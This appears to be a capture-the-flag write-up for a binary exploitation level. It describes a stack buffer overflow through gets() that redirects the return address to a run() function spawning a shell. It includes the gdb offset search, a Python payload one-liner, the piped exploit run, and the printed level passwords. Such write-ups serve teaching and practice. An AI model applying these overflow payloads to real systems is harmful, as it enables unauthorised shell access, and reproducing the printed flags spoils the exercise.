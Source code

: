 # Level1
```bash
su level1 #1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a
```

## Steps

This binary has a `run()` function that calls `/bin/sh`, however it is not called by `main()`.   
There is an unprotected `gets()` `in main()` that will allow us to perform a **buffer overflow attack**.   
This will consist of writing up on the stack by inputing more characters in gets() than the available buffer size.   

By overwriting the RET value with the address of `run()` we can force its execution.   

Using the pattern generator at https://wiremask.eu/tools/buffer-overflow-pattern-generator/ we can find exactly at what offset to write the address after the buffer.

```bash
$ gdb level1
(gdb) r
(gdb) Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()	; offset 76
```

```bash
$ python -c "print 76 * 'a' + '\x08\x04\x84\x44'[::-1]" > /tmp/inj1
cat /tmp/inj1 - | ./level1
Good... Wait what?

cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
